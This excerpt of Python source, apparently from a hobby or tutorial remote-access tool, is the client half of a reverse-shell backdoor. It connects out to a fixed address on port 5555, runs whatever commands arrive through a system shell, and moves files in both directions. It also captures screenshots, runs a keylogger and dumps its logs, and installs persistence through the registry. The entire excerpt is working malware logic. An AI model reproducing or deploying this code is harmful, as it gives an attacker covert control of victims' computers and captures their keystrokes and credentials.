 ```

def connection():
    while True:
        time.sleep(20)
        try:
            s.connect(('192.168.1.4', 5555))
            shell()
            s.close()
            break
        except:
            connection()

def shell():
    while True:
        command = reliable_recv()
        if command == 'quit':
            break
        elif command == 'background':
            pass
        elif command == 'help':
            pass
        elif command == 'clear':
            pass
        elif command[:3] == 'cd ':
            os.chdir(command[3:])
        elif command[:6] == 'upload':
            download_file(command[7:])
        elif command[:8] == 'download':
            upload_file(command[9:])
        elif command[:10] == 'screenshot':
            screenshot()
            upload_file('screen.png')
            os.remove('screen.png')
        elif command[:12] == 'keylog_start':
            keylog = keylogger.Keylogger()
            t = threading.Thread(target=keylog.start)
            t.start()
            reliable_send('[+] Keylogger Started!')
        elif command[:11] == 'keylog_dump':
            logs = keylog.read_logs()
            reliable_send(logs)
        elif command[:11] == 'keylog_stop':
            keylog.self_destruct()
            t.join()
            reliable_send('[+] Keylogger Stopped!')
        elif command[:11] == 'persistence':
            reg_name, copy_name = command[12:].split(' ')
            persist(reg_name, copy_name)
        elif command[:7] == 'sendall':
            subprocess.Popen(command[8:], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,stdin = subprocess.PIPE)
        else:
            execute = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,stdin=subprocess.PIPE)
            result = execute.stdout.read() + execute.stderr.read()
            result = result.decode()
            reliable_send(result)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
```
